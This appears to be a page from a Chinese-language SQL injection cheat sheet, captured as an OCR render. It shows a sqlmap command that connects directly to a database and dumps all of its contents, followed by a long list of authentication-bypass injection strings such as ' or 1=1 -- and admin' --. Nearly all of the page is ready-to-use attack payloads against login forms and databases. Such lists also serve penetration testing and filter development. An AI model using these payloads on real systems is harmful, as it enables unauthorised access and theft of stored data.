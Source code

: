 ### 不使用SQL注入的SQLmap

您可以使用SQLmap通过其端口而不是URL访问数据库。

```ps1
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all 
```

## 认证绕过

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
```